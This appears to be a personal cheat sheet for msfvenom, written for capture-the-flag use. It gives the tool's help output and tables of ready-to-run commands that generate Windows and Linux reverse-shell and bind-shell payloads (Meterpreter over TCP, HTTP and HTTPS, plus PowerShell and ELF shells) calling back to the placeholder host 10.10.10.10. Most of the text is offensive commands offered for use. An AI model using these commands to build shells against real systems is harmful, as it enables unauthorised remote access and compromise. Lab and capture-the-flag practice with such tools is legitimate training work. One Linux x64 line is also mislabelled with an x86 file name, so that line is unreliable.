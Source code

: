 # msfvenom

- [Introduction](#introduction)
- [Usage](#usage)
- [Examples](#examples)

## Introduction

I use msfvenom in capture the flag events when I am trying to get access to a machine or when trying to escalate my privileges. What makes this tool so great is that I can craft a payload and output it in a wide array of formats. Some of those outputs include:

- php script
- python script
- Windows executable
- Windows service
- bash script

## Usage

```bash
$ msfvenom -h
MsfVenom - a Metasploit standalone payload generator.
Also a replacement for msfpayload and msfencode.
Usage: /opt/metasploit-framework/bin/../embedded/framework/msfvenom [options] <var=val>
Example: /opt/metasploit-framework/bin/../embedded/framework/msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP> -f exe -o payload.exe

Options:
    -l, --list            <type>     List all modules for [type]. Types are: payloads, encoders, nops, platforms, archs, encrypt, formats, all
    -p, --payload         <payload>  Payload to use (--list payloads to list, --list-options for arguments). Specify '-' or STDIN for custom
        --list-options               List --payload <value>'s standard, advanced and evasion options
    -f, --format          <format>   Output format (use --list formats to list)
    -e, --encoder         <encoder>  The encoder to use (use --list encoders to list)
        --service-name    <value>    The service name to use when generating a service binary
        --sec-name        <value>    The new section name to use when generating large Windows binaries. Default: random 4-character alpha string
        --smallest                   Generate the smallest possible payload using all available encoders
        --encrypt         <value>    The type of encryption or encoding to apply to the shellcode (use --list encrypt to list)
        --encrypt-key     <value>    A key to be used for --encrypt
        --encrypt-iv      <value>    An initialization vector for --encrypt
    -a, --arch            <arch>     The architecture to use for --payload and --encoders (use --list archs to list)
        --platform        <platform> The platform for --payload (use --list platforms to list)
    -o, --out             <path>     Save the payload to a file
    -b, --bad-chars       <list>     Characters to avoid example: '\x00\xff'
    -n, --nopsled         <length>   Prepend a nopsled of [length] size on to the payload
        --pad-nops                   Use nopsled size specified by -n <length> as the total payload size, auto-prepending a nopsled of quantity (nops minus payload length)
    -s, --space           <length>   The maximum size of the resulting payload
        --encoder-space   <length>   The maximum size of the encoded payload (defaults to the -s value)
    -i, --iterations      <count>    The number of times to encode the payload
    -c, --add-code        <path>     Specify an additional win32 shellcode file to include
    -x, --template        <path>     Specify a custom executable file to use as a template
    -k, --keep                       Preserve the --template behaviour and inject the payload as a new thread
    -v, --var-name        <value>    Specify a custom variable name to use for certain output formats
    -t, --timeout         <second>   The number of seconds to wait when reading the payload from STDIN (default 30, 0 to disable)
    -h, --help                       Show this message
```

## Examples

Below are some different payload commands. I have grouped them with a heading to help explain what the payload is for.

### Windows Payloads

| Description | Command |
| --- | --- |
| Windows Reverse TCP Meterpreter | `msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.10.10 LPORT=4444 -f exe > shell.exe` |
| Windows Reverse HTTP Meterpreter | `msfvenom -p windows/meterpreter/reverse_http LHOST=10.10.10.10 LPORT=8080 -f exe > shell_http.exe` |
| Windows Reverse HTTPS Meterpreter | `msfvenom -p windows/meterpreter/reverse_https LHOST=10.10.10.10 LPORT=443 -f exe > shell_https.exe` |
| Windows Staged Reverse TCP | `msfvenom -p windows/shell/reverse_tcp LHOST=10.10.10.10 LPORT=4444 -f exe > shell_stage.exe` |
| Windows Reverse TCP PowerShell | `msfvenom -p windows/powershell_reverse_tcp LHOST=10.10.10.10 LPORT=4444 -f raw > shell.ps1` |

### Linux Payloads

| Description | Command |
| --- | --- |
| Linux x86 Reverse TCP | `msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.10.10.10 LPORT=4444 -f elf > shell_x86.elf` |
| Linux x64 Reverse TCP | `msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=10.10.10.10 LPORT=4444 -f elf > shell_x86.elf` |
| Linux Bind TCP | `msfvenom -p linux/x64/meterpreter/bind_tcp LPORT=4444 -f elf > bind_shell.elf` |

